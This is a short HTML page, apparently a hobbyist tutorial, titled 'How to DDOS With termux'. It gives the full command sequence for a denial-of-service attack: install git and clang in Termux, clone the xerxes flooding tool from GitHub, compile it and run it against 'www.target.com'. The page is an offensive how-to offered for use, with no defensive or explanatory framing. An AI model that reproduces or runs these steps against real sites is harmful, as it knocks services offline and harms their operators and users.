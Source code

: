 <html>
<head>
<title>Tutor mastah!</title>
</head>
<body bgcolor="#f4f444">
<h1><marquee>How to DDOS With termux ??</marquee></h1>
<hr>
<h4>1. Download termux and ready Connection!</h4>
<p>$ apt install git</p>
<p>$ apt install clang</p>
<p>$ git clone https://github.com/zanyarjamal/xerxes.git</p>
<p>$ cd xerxes</p>
<p>$ clang xerxes.c -o xerxes</p>
<p>$ ./xerxes www.target.com</p>
<br>
<h2>Thanks..By Mr.V1R0D</h2>
<hr>
</body
</html>
